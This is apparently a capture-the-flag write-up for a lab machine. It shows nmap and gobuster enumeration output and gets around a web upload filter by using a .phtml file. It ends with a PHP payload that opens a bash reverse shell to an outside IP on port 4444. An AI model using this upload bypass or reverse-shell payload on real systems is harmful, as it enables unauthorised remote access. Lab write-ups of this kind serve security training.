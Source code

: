 ```
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.44 seconds
```

# Enumeration
Gobuster enumerates the web directories.
```
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.229.101
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.229.101/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.229.101/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.229.101/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.229.101/pan
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

# Initial Foothold

![[RootMePanelPage.png]]

Testing this page reveals php documents are blocked. PDF files are allowed however.

Unfortunately, tricking the form upload by spoofing the content-type with burpsuite and fixing the extension from .pdf to .php didn't work.

However, burpsuite reveals that HTML files are allowed. Googling reveals a .phtml file format that allows PHP to be ran. I reused a file from LazyAdmin:
```
<!--
# Exploit :
-->

<html>
<body>

<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.13.62.120/4444 0>&1'");
?>
</body>
</html>

<!--
```